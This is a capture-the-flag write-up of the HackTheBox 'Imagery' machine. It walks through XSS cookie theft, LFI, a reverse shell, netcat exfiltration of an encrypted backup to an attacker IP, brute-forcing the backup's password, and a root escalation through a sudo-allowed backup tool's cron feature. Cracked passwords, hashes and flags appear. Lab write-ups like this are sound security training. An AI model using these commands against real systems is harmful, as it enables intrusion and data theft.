# Imagery

> Platform: HackTheBox
>
> Created by: [Nab6eel](https://app.hackthebox.com/users/2320711)
>
> Difficulty: Medium
>
> Status: Season 9

## Enumeration

First of all, we will begin with the **Nmap**. Actually, you can just use a normal Nmap command, but here is my preferences.
```
┌──(kali㉿kali)-[/mnt/…/Learning/HackTheBox/Machines/Imagery]
└─$ nmap -sVSC <TARGET-IP> -T4 -Pn -n -vvv -oA imageryscan
Nmap scan report for 10.10.11.88
Host is up, received user-set (0.019s latency).
Scanned at 2025-09-28 16:45:32 +08 for 91s
Not shown: 997 closed tcp ports (reset)
PORT     STATE SERVICE         REASON         VERSION
22/tcp   open  ssh             syn-ack ttl 63 OpenSSH 9.7p1 Ubuntu 7ubuntu4.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 35:94:fb:70:36:1a:26:3c:a8:3c:5a:5a:e4:fb:8c:18 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBKyy0U7qSOOyGqKW/mnTdFIj9zkAcvMCMWnEhOoQFWUYio6eiBlaFBjhhHuM8hEM0tbeqFbnkQ+6SFDQw6VjP+E=
|   256 c2:52:7c:42:61:ce:97:9d:12:d5:01:1c:ba:68:0f:fa (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIBleYkGyL8P6lEEXf1+1feCllblPfSRHnQ9znOKhcnNM
8000/tcp open  http            syn-ack ttl 63 Werkzeug httpd 3.1.3 (Python 3.12.7)
|_http-title: Image Gallery
|_http-server-header: Werkzeug/3.1.3 Python/3.12.7
| http-methods: 
|_  Supported Methods: GET HEAD OPTIONS
8888/tcp open  sun-answerbook? syn-ack ttl 63
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
```

Try to register our account and login to the page:


## Exploitation

After login to the page, there is a Report Bug page:



Actually here, there is an XSS vulnerabilities which we can try to inject to get the cookies of the web admin. Payload:
```

```





Now, decode it and change the session cookie with the admin cookie:
```
┌──(kali㉿kali)-[/mnt/…/Learning/HackTheBox/Machines/Imagery]
└─$ echo 'c2Vzc2lvbj0uZUp3OWpiRU9nekFNUlBfRmM0VUVaY3BFUjc0aU1vbExMU1VHeGM2QUVQLU9vcW9kNzkzVDNRbVJkVTk0ekJFY1lMOE00UmxIZUFEcksyWVdjRllxdGVnNTcxUjBFelNXMVJ1cFZhVUM3bzFKdjhhUGVReGhxMkxfcmtIQlRPMmlyVTZjY2FWeWRCOWI0TG9CS3JNdjJ3LmFOa1VSdy5sdkRUQ3JEWnA0RDVWMHk2RkJfb2F4VmdpOTA=' | base64 -d
session=.eJw9jbEOgzAMRP_Fc4UEZcpER74iMolLLSUGxc6AEP-Ooqod793T3QmRdU94zBEcYL8M4RlHeADrK2YWcFYqteg571R0EzSW1RupVaUC7o1Jv8aPeQxhq2L_rkHBTO2irU6ccaVydB9b4LoBKrMv2w.aNkURw.lvDTCrDZp4D5V0y6FB_oaxVgi90 
```



Then, when we try to intercept the download log functions, we can try to do LFI here:


As we know earlier, the server is running the Werkzeug server, we can try to enumerate more information:


The app source code:


We also get the database, which shows different users credentials:


After trying to crack the password, we know that the user testuser password is crackable using the Crackstation:


We can try to login to the page using the testuser credentials, we also know that the testuser is able to have differents functions than the normal user can:


Try to create a crop operation request and intercept the request using Burp Suite:


This is how the crop request are being sent to the server:


Now, we can try to inject our payload here which may create a reverse shell to our machine:


In our machine:


After running linpeas, I found out something interesting:
```
╔══════════╣ Readable files inside /tmp, /var/tmp, /private/tmp, /private/var/at/tmp, /private/var/tmp, and backup folders (limit 70)                                                     
...
-rw-rw-r-- 1 root root 22 Sep 28 09:21 /var/backup/root.txt_20250928_092156.zip
-rw-rw-r-- 1 root root 23054471 Aug  6  2024 /var/backup/web_20250806_120723.zip.aes
...
```

Try to retrieve the .aes file, in our machine:
```
┌──(kali㉿kali)-[/mnt/…/Learning/HackTheBox/Machines/Imagery]
└─$ nc -lvnp 5555 > web_20250806_120723.zip.aes
listening on [any] 5555 ...
```

Then in the server:
```
web@Imagery:/var/backup$ ls -la
ls -la
total 22532
drwxr-xr-x  2 root root     4096 Sep 28 10:43 .
drwxr-xr-x 14 root root     4096 Sep 22 18:56 ..
-rw-rw-r--  1 root root       22 Sep 28 09:21 root.txt_20250928_092156.zip
-rw-rw-r--  1 root root      327 Sep 28 10:43 root.txt_20250928_104314.zip.aes
-rw-rw-r--  1 root root 23054471 Aug  6  2024 web_20250806_120723.zip.aes
web@Imagery:/var/backup$ nc 10.10.14.74 5555 < web_20250806_120723.zip.aes
nc 10.10.14.74 5555 < web_20250806_120723.zip.aes
```

Then we can use dpyAesCrypt tool:
```
┌──(venv)─(kali㉿kali)-[~/upload/dpyAesCrypt.py]
└─$ python dpyAesCrypt.py web_20250806_120723.zip.aes /usr/share/wordlists/rockyou.txt

[🔐] dpyAesCrypt.py – pyAesCrypt Brute Forcer                                                
                                                                                             
[🔎] Starting brute-force with 10 threads...
[🔄] Progress: ░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░ 0.00% | ETA: 00:00:00 | Tried 0/14344392/home/kali/upload/dpyAesCrypt.py/dpyAesCrypt.py:42: DeprecationWarning: inputLength parameter is no longer used, and might be removed in a future version
  pyAesCrypt.decryptStream(fIn, fOut, password.strip(), buffer_size, os.path.getsize(encrypted_file))
[🔄] Progress: ░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░ 0.01% | ETA: 03:01:47 | Tried 1237/14344392

[✅] Password found: bestfriends                                                             
🔓 Decrypt the file now? (y/n): y
/home/kali/upload/dpyAesCrypt.py/dpyAesCrypt.py:142: DeprecationWarning: inputLength parameter is no longer used, and might be removed in a future version
  pyAesCrypt.decryptStream(fIn, fOut, cracked_pw, args.buffer, os.path.getsize(args.file))
[📁] File decrypted successfully as: web_20250806_120723.zip
```

Try to unzip the file and view the contents:
```
┌──(venv)─(kali㉿kali)-[~/upload/dpyAesCrypt.py]
└─$ unzip web_20250806_120723.zip                          
Archive:  web_20250806_120723.zip
...

┌──(venv)─(kali㉿kali)-[~/upload/dpyAesCrypt.py]
└─$ cd web           
                                                                                             
┌──(venv)─(kali㉿kali)-[~/upload/dpyAesCrypt.py/web]
└─$ ls
api_admin.py  api_edit.py    api_misc.py    app.py     db.json  __pycache__  templates
api_auth.py   api_manage.py  api_upload.py  config.py  env      system_logs  utils.py
                                                                                             
┌──(venv)─(kali㉿kali)-[~/upload/dpyAesCrypt.py/web]
└─$ cat db.json            
{
    "users": [
        {
            "username": "admin@imagery.htb",
            "password": "5d9c1d507a3f76af1e5c97a3ad1eaa31",
            "displayId": "f8p10uw0",
            "isTestuser": false,
            "isAdmin": true,
            "failed_login_attempts": 0,
            "locked_until": null
        },
        {
            "username": "testuser@imagery.htb",
            "password": "2c65c8d7bfbca32a3ed42596192384f6",
            "displayId": "8utz23o5",
            "isTestuser": true,
            "isAdmin": false,
            "failed_login_attempts": 0,
            "locked_until": null
        },
        {
            "username": "mark@imagery.htb",
            "password": "01c3d2e5bdaf6134cec0a367cf53e535",
            "displayId": "868facaf",
            "isAdmin": false,
            "failed_login_attempts": 0,
            "locked_until": null,
            "isTestuser": false
        },
...
```

Try to decrypt the mark password:


Then, we can change our user to mark:
```
web@Imagery:/var/backup$ su mark
su mark
Password: supersmash
whoami
mark
python3 -c 'import pty;pty.spawn("/bin/bash")'
mark@Imagery:/var/backup$ ls ~
ls ~
user.txt
mark@Imagery:/var/backup$ cat ~/user.txt
cat ~/user.txt
```

<details>
<summary><b>🏳️user.txt</b></summary>
<code><b>f0d99b75f8e1a56e5885e6ccc437600b</b></code>
</details><br>


## Privilege Escalation

Moving on to **escalate our privileges to root**. We need to find what can we leverage to spawn a privilege shell.

First we try to check with the **sudo permission** first
```
mark@Imagery:/var/backup$ sudo -l
sudo -l
Matching Defaults entries for mark on Imagery:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User mark may run the following commands on Imagery:
    (ALL) NOPASSWD: /usr/local/bin/charcol
```

After reading the manual of the charcol binary, we can try to reset the password to default which will not requires the password for us to create a cron job which will copy the root flag for our read:
```
mark@Imagery:~$ sudo /usr/local/bin/charcol -R

Attempting to reset Charcol application password to default.
[2025-09-28 11:37:52] [INFO] System password verification required for this operation.
Enter system password for user 'mark' to confirm: 

[2025-09-28 11:37:56] [INFO] System password verified successfully.
Removed existing config file: /root/.charcol/.charcol_config
Charcol application password has been reset to default (no password mode).
Please restart the application for changes to take effect.
mark@Imagery:~$ sudo -u root /usr/local/bin/charcol shell

First time setup: Set your Charcol application password.
Enter '1' to set a new password, or press Enter to use 'no password' mode: 
Are you sure you want to use 'no password' mode? (yes/no): yes
[2025-09-28 11:38:11] [INFO] Default application password choice saved to /root/.charcol/.charcol_config
Using 'no password' mode. This choice has been remembered.
Please restart the application for changes to take effect.
mark@Imagery:~$ sudo -u root /usr/local/bin/charcol shell

  ░██████  ░██                                                  ░██ 
 ░██   ░░██ ░██                                                  ░██ 
░██        ░████████   ░██████   ░██░████  ░███████   ░███████  ░██ 
░██        ░██    ░██       ░██  ░███     ░██    ░██ ░██    ░██ ░██ 
░██        ░██    ░██  ░███████  ░██      ░██        ░██    ░██ ░██ 
 ░██   ░██ ░██    ░██ ░██   ░██  ░██      ░██    ░██ ░██    ░██ ░██ 
  ░██████  ░██    ░██  ░█████░██ ░██       ░███████   ░███████  ░██ 
                                                                    
                                                                    
                                                                    
Charcol The Backup Suit - Development edition 1.0.0

[2025-09-28 11:38:14] [INFO] Entering Charcol interactive shell. Type 'help' for commands, 'exit' to quit.
charcol> auto add --schedule "*/1 * * * *" --command "cat /root/root.txt >> /tmp/flag.txt" --name "TestTimestamp" --log-output /tmp/root.txt
[2025-09-28 11:38:26] [INFO] System password verification required for this operation.
Enter system password for user 'mark' to confirm: 

[2025-09-28 11:38:33] [INFO] System password verified successfully.
[2025-09-28 11:38:33] [INFO] Auto job 'TestTimestamp' (ID: 4b382ee2-5077-4de8-bd48-4826530cbc59) added successfully. The job will run according to schedule.
[2025-09-28 11:38:33] [INFO] Cron line added: */1 * * * * CHARCOL_NON_INTERACTIVE=true cat /root/root.txt >> /tmp/flag.txt >> /tmp/root.txt 2>&1
charcol> exit
[2025-09-28 11:38:36] [INFO] Exiting Charcol shell.
mark@Imagery:~$ 
```

Then, wait for 1 minute and read the root flag.

<details>
<summary><b>🏳️root.txt</b></summary>
<code><b>10d3ff300530246269adeb8bffa6a86f</b></code>
</details><br>